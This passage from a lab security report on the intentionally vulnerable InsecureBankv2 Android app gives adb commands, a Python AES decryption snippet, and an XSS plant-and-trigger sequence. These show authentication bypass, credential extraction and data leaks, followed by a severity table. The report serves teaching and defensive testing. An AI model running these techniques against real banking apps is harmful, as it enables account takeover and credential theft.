> ⚠️ **Finding [HIGH]:** JavaScript bridge registered in WebView context. On Android < 4.2, allows JS to invoke arbitrary Java methods via reflection. Expands attack surface on all versions.

---

## 7. Proof-of-Concept (PoC) Summaries

> **Disclaimer:** All PoCs are static-analysis-based, prepared for educational/lab purposes in an authorized lab environment only.

---

### PoC 1 — Bypass Authentication via Exported Activity

**Vulnerability:** `PostLogin` exported without permission.

```bash
adb shell am start -n com.android.insecurebankv2/.PostLogin
```

**Impact:** Attacker launches post-login dashboard with zero credentials — authentication completely bypassed.

---

### PoC 2 — Extract Credentials via ADB Backup

**Vulnerability:** `android:allowBackup="true"`

```bash
adb backup -noapk com.android.insecurebankv2
abe unpack backup.ab backup.tar && tar -xvf backup.tar
# Read: apps/com.android.insecurebankv2/sp/*.xml
# Keys: "EncryptedUsername", "superSecurePassword"
```

**Impact:** Full credential extraction without root access.

---

### PoC 3 — Decrypt Stored Password (Static AES Key)

**Vulnerability:** AES key = `"This is the super Secret key 123"` (hardcoded)

```python
from Crypto.Cipher import AES
import base64

key = b"This is the super Secret key 123"
enc = base64.b64decode("<EncryptedPassword_from_SharedPrefs>")
iv  = b"<extracted_iv>"
cipher = AES.new(key, AES.MODE_CBC, iv)
print(cipher.decrypt(enc))   # → plaintext password
```

**Impact:** Full plaintext password recovery from any obtained SharedPreferences backup.

---

### PoC 4 — HTTP MITM Credential Interception

**Vulnerability:** `protocol = "http://"` in all banking activities.

```bash
# ARP spoof or rogue AP on same LAN:
POST http://<server>/login
  username=victim&password=cleartext

POST http://<server>/dotransfer
  from_account=123&to_account=456&amount=10000
```

**Impact:** Credentials and financial data captured in cleartext.

---

### PoC 5 — WebView Local File Injection (XSS)

**Vulnerability:** `mWebView.loadUrl("file://" + externalStorage + "/Statements_" + uname + ".html")`

```bash
# Plant crafted HTML on external storage:
adb shell "echo '<script>alert(document.cookie)</script>' \
  > /sdcard/Statements_admin.html"

# Trigger exported ViewStatement activity:
adb shell am start -n com.android.insecurebankv2/.ViewStatement \
  --es "uname" "admin"
```

**Impact:** Arbitrary JavaScript executes in the banking app's WebView — session theft, credential harvesting.

---

### PoC 6 — Exported Content Provider Data Leak

**Vulnerability:** `TrackUserContentProvider` exported with no permissions.

```bash
adb shell content query \
  --uri content://com.android.insecurebankv2.TrackUserContentProvider/
```

**Impact:** All tracked user data readable by any app or via ADB, no permission required.

---

### PoC 7 — Broadcast Receiver Abuse

**Vulnerability:** `MyBroadCastReceiver` exported with no permissions.

```bash
adb shell am broadcast \
  -a theBroadcast \
  -n com.android.insecurebankv2/.MyBroadCastReceiver \
  --es phonenumber "+1234567890" \
  --es newpass "hacked123"
```

**Impact:** Receiver logic triggered arbitrarily — may send password change SMS to attacker-controlled number.

---

## 8. Summary of Findings

| # | Finding | Severity | Category |
|---|---|---|---|
| 1 | Four sensitive activities exported without permission | 🔴 CRITICAL | Access Control |
| 2 | AES key hardcoded as plaintext string in source | 🔴 CRITICAL | Cryptography |
| 3 | Passwords stored in SharedPreferences (weak encryption) | 🔴 CRITICAL | Data Storage |
| 4 | All network traffic over HTTP — no TLS | 🔴 CRITICAL | Network Security |
| 5 | WebView loads `file://` URIs from external storage | 🔴 CRITICAL | WebView |
| 6 | `android:debuggable="true"` in production manifest | 🟠 HIGH | Configuration |
| 7 | `android:allowBackup="true"` enables ADB data extraction | 🟠 HIGH | Configuration |
| 8 | Exported BroadcastReceiver without permission | 🟠 HIGH | Access Control |
| 9 | Exported ContentProvider without permission | 🟠 HIGH | Access Control |
| 10 | Hardcoded username `devadmin` (backdoor) | 🟠 HIGH | Authentication |
| 11 | JavaScript enabled in WebView | 🟠 HIGH | WebView |
| 12 | Excessive dangerous permissions requested | 🟠 HIGH | Permissions |
| 13 | `addJavascriptInterface` exposed in WebView | 🟠 HIGH | WebView |
| 14 | AES/CBC with static IV and hardcoded key | 🟠 HIGH | Cryptography |
| 15 | MD5 used for hashing (cryptographically broken) | 🟡 MEDIUM | Cryptography |
| 16 | SHA-1 used in signature verification | 🟡 MEDIUM | Cryptography |
| 17 | Custom WebViewClient — potential SSL error bypass | 🟡 MEDIUM | Network Security |

### Severity Breakdown

| Severity | Count |
|---|---|
| 🔴 Critical | 5 |
| 🟠 High | 9 |
| 🟡 Medium | 3 |
| **Total** | **17** |

---

*This report was produced as part of a controlled lab exercise on the intentionally vulnerable InsecureBankv2 application. All findings are strictly for educational purposes.*
